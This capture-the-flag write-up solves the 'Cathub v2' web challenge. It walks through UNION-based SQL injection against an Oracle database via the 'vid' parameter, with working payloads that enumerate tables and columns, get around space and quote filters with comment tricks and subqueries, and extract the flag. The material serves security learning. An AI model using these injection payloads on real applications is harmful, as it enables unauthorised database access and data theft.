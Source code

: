 # Cathub v2

## Description:

> jin-duen-jiang is too easy, let's play cathub!

## Solution:

When access any video, `vid` will be sent to OracleDB as part of the url, which is the vulnerability.

First find the number of columns. Note that space is blocked, so need to bypass using `/**/` or `%0a`. `'` and `chr` are also block. In the end there are 3 columns.

```
?vid=-1 union select 1,null,null from dual
```

Next, find the table name.

```
?vid=-1 union select null,table_name,null from user_tables offset 1 rows fetch first 1 rows only

?vid=-1 union select null,table_name,null from user_tables offset 2 rows fetch first 1 rows only

?vid=-1 union select null,table_name,null from user_tables offset 3 rows fetch first 1 rows only
```

There's a table named `S3CRET`, so we can find out it's columns. Since `'` is blocked, we can't use `where table_name='S3CRET'`. This can be bypassed with `()` and do another query.

```
?vid=-1 union select null,column_name,null from user_tab_columns where
    table_name=(select table_name from user_all_tables offset 5 rows fetch first 1 rows only)
offset 1 rows fetch first 1 rows only
```

There's a column named `V3RY_S3CRET_C0LUMN`, so we only need to extract its value.

```
?vid=-1/**/union/**/select/**/null,V3RY_S3CRET_C0LUMN,null/**/from/**/S3CRET
```

The flag shown in the title is all caps, due to CSS. Simply inspect element to view the actual flag.

`FLAG{hey___or@cle_d4tab4s3__inj3cti0n_i5____to0OoO0ooO0OO_e4sy!!!!!??}`

